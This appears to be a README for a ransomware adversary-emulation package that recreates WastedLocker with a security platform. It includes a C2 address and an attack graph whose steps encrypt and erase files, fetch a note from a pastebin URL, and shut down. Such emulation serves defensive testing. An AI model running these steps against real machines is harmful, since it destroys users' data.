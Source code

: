 This threat is explained further in SCYTHE's Threat Thursday blog: https://www.scythe.io/library/threatthursday-evil-corp

To Emulate:

1. Download and import the threat in JSON format to your SCYTHE instance - https://github.com/scythe-io/community-threats/blob/master/EvilCorp/WastedLocker_scythe_threat.json
2. Go to the Threat Catalog and select "WastedLocker"
3. Click "Create Campaign from Threat"
4. Name the Campaign
5. Parameters: Replace --cp 35.229.19.7:443 with your SCYTHE instance IP address or FQDN.
6. Launch the Campaign


 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load run </i> <br>"]
Step2["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load file </i> <br>"]
Step3["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load crypt </i> <br>"]
Step4["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load downloader </i> <br>"]
Step5["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c mkdir %USERPROFILE%\Desktop\EvilCorp </i> <br><a href='https://attack.mitre.org/techniques/T1059'>att&ck-technique:T1059</a><br>
"]
Step6["<b> module: file </b> <br><h4> parameters: </h4> <i> --create --path %USERPROFILE%\Desktop\EvilCorp\important_files.wasted --size 5MB --count 50 </i> <br><a href='https://attack.mitre.org/techniques/T1078'>att&ck-technique:T1078</a><br>
"]
Step7["<b> module: crypt </b> <br><h4> parameters: </h4> <i> --target %USERPROFILE%\Desktop\EvilCorp\ --encrypt --password 3v1lC0rP --erase --recurse </i> <br><a href='https://attack.mitre.org/techniques/T1486'>att&ck-technique:T1486</a><br>
"]
Step8["<b> module: downloader </b> <br><h4> parameters: </h4> <i> --src https://pastebin.com/raw/ZyVJEYB4 --dest %USERPROFILE%\Desktop\wasted_info.txt </i> <br><a href='https://attack.mitre.org/techniques/T1105'>att&ck-technique:T1105</a><br>
"]
Step9["<b> module: controller </b> <br><h4> parameters: </h4> <i> --shutdown </i> <br><a href='https://attack.mitre.org/tactics/TA0011'>att&ck-tactic:TA0011</a><br>
<a href='https://attack.mitre.org/techniques/T1219'>att&ck-technique:T1219</a><br>
"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
Step4 --> Step5
Step5 --> Step6
Step6 --> Step7
Step7 --> Step8
Step8 --> Step9
Step9 --> Step10
```
